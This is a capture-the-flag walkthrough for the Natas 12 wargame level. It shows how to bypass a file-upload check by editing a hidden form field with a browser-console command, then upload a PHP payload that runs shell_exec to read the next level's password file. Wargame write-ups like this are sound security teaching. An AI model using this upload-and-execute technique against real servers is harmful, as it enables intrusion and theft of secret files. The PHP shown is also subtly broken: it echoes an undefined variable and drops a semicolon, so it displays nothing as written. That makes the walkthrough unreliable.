 # NATAS12

## Step 1: Write the "payload script"
Create a php file to display the natas13 password
```php
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>"
?>
```

## Step 2: Modify the hidden input field
Open up your browser's javascript console.  In Chrome, CTRL+SHIFT+I will open up the Developer Tools. Change the value of the hidden input field "filename" so that it displays a php file extension instead of jpg.
```javascript
$( 'input[name="filename"]').val("test.php")
```
Make sure to hit enter so the code above is executed in your browser.

## Stage 3: Upload the payload and browse to it
Upload your php file, and click on the link to your file so the webserver executes the script you wrote.  The data displayed is the password for natas13.
